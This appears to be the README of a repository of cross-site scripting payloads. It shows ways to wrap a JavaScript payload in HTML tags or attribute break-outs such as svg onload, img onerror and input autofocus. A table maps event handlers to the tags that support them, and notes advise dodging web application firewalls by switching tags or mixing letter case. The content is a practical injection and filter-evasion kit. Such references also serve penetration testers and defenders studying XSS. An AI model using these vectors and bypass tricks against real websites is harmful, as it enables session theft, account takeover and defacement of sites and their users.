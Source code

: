 # Payloads to...

* [Fetch an external resource](fetch.md)

# Introduction

The payloads described in the various files may need wrapping to put them in a JavaSscript context (unless the injection ends up already inside a JS context, which is rare). Possible ways to execute a payload are:

* If injection ends up outside of an HTML tag:
  * `<script>`**_payload_**`</script>`
  * `<svg/onload="`**_payload_**`"/>`
  * `<img/onerror="`**_payload_**`"/src=x>`
  * `<style/onload="`**_payload_**`"></style>`
  * `<input/onfocus="`**_payload_**`"/autofocus>`
  * `<marquee/onstart="`**_payload_**`"></marquee>`
  * `<div/onwheel="`**_payload_**`"/style="height:200%;width:100%"></div>`
  * `<div/onmouseover="`**_payload_**`"/style="height:100%;width:100%"></div>`
  * ... many more, see below table for event attributes and supported tags
* If injection ends up inside an HTML tag's attribute:
  * `" `**_event_**`="`**_payload_**
  * `' `**_event_**`='`**_payload_** *(replace single quotes in payload with double quotes)*

##### Event handlers
Possible events and the supported HTML tags are:

| event         | supported HTML tags |
|---------------|---------------------|
| onload        | body, frame, frameset, iframe, img, input type="image", link, script, style |
| onchange      | input type="checkbox", input type="file", input type="password", input type="radio", input type="range", input type="search", input type="text", select, textarea |
| onkeyup       | **all except** base, bdo, br, head, html, iframe, meta, param, script, style, title |
| onmouseover   | &#x2014;"&#x2014; |
| onblur        | &#x2014;"&#x2014; |
| onfocus       | &#x2014;"&#x2014; |
| onclick       | &#x2014;"&#x2014; |
| onmouseover   | &#x2014;"&#x2014; |
| onmouseout    | &#x2014;"&#x2014; |
| oncontextmenu | **all, but it can only be triggered if the element takes space on the page** |
| onwheel       | &#x2014;"&#x2014; |
| ondrag        | &#x2014;"&#x2014; |
| ondrop        | &#x2014;"&#x2014; |
| oncopy        | &#x2014;"&#x2014; |
| oncut         | &#x2014;"&#x2014; |
| onpaste       | &#x2014;"&#x2014; |
| onscroll      | address, blockquote, body, caption, center, dd, dir, div, dl, dt, fieldset, form, h1&#x2014;h6, html, li, menu, object, ol, p, pre, select, tbody, textarea, tfoot, thead, ul |
| oninvalid     | input |
| oninput       | input type="password", input type="search", input type="text", textarea |
| onsearch      | input type="search" |
| onselect      | input type="file", input type="password", input type="text", textarea |
| onreset       | form |
| onsubmit      | form |

##### NOTES
* Some WAFs block only some html tags (e.g. `<script>`), but not other tags, so don't give up after trying a few that got rejected.
* Some WAFs do a poor job and fail to block HTML tags or attributes when they are capitalized (or mixed case). Give that a try.
* Many event handlers require user action. See more at `https://www.w3schools.com/TAGS/ev_`**_event_**`.asp`
